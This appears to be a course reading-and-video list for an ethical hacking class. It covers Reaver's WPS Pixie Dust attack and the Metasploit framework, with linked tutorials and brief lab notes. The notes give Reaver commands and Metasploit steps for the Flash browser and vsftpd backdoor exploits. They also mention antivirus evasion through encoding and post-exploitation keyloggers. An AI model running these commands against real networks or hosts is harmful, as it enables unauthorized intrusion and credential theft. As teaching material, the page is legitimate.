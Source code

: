 # Readings and Videos<p>

## Reaver<p>
**Suggested brief reading:** [Offline Bruteforce Attack on Wifi Protected Setup](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf).<br />
 
 ##### Pixie Dust attack
 
 ![Options](https://comfy.moe/xeuglf.png)
  <p>

  
![The old way](https://www.hackingtutorials.org/wp-content/uploads/2015/06/Wordpress-screen-21-e1433583260536.jpg)
  <p>

`reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K`    
![With the pixie dust option](https://comfy.moe/hhojvn.jpg)
  <p>
 `reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -p 39627124`
 ![With the pixie dust option - result](https://comfy.moe/tyhfos.jpg)
  
<p>
  
## Metasploit<p>

##### n.b. any ebooks are cuny-wide resources but if you have issues with the proxy please search in the JJay OneSearch [here](https://onesearch.cuny.edu/primo-explore/search?vid=jj&mode=advanced&sortby=rank&lang=en_US).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
**Suggested brief reading:** [Metasploit for Beginners](https://www.concise-courses.com/security/metasploit-for-beginners/).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
[Hands on with Metasploit Express (ScienceDirect)](https://doi.org/10.1016/S1353-4858(10)70092-1).<br />
[Instant Metasploit Starter (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781299802681&context=PC&vid=jj&search_scope=cunywide&tab=cuny_tab&lang=en_US).<br />
[Mastering Metasploit (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781306823425&context=PC&vid=jj&search_scope=everything&tab=default_tab&lang=en_US).<br />
[SANS Metasploit Cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf).<br />
[Setting up a Metasploit postgresql database](https://www.offensive-security.com/metasploit-unleashed/using-databases/).<p>
<p>


<p>
Youtube: Metasploit for Beginners<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/cnkLv_RE3EI/0.jpg)](https://www.youtube.com/watch?v=cnkLv_RE3EI "MetaSploit tutorial for beginners")<p>
<p>
  

Hak5's Metasploit Minute series<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/NTdthBQYa1k/0.jpg)](https://www.youtube.com/watch?v=NTdthBQYa1k "5 Ways To Get Initial Access - Metasploit Minute")<p>

Hackersploit's Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/8lR27r8Y_ik/0.jpg)](https://www.youtube.com/watch?v=8lR27r8Y_ik "Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads")<p>
<p>
  
  ### Demonstration and Things to Remember<br />
  <br />
  start postgresql before msfconsole<br />
  searching: type and platform<br />
  <p>
  commands:<br />
  
  * search type:exploit platform:windows flash
  * help
  * use exploit/windows/browser/adobe_flash_avm2 (turns red if loaded)
  * show options (customize the attack) and set SRVPORT 80
  
  ANOTHER and BETTER EXAMPLE:
  * use ZenMap to see software running and note network topography
  * db_nmap_status, db_nmap -T4 -A -v metasploitableIP
  * show (gives lots of info)
  * show info (good place to start)
  * show payloads (shows all of the payloads available)
  * show targets
  * search vsftpd
  * use exploit/unix/ftp/vsftpd_234_backdoor
  * info
  * set RHOST 10.______
  * finish with 'check' and 'exploit'
  <p>
  Modules directory:  /usr/share/metasploit-framework<br />
  NOPS for buffer overflows<br />
  Encoding for sneaking through antivirus<br />
  post for further attacks are being pwned (keyloggers, VNC, etc.)<br />
  post/windows/gather <--btc-mining and other scripts<br />
  
  Armitage - GUI for MSF
  
  ezsploit automation
  
### Reconnaisance:<br />
[CTFR](https://github.com/UnaPibaGeek/ctfr)<p>
![CTFR](https://a.pomf.cat/qqtejp.png)
 <p>
 
### Shodan: FREE full membership with a .edu address: 
 ![Shodan](https://a.pomf.cat/tbucxr.png)
 
 Register here: https://account.shodan.io/register and email support@shodan.io from the .edu email.
  
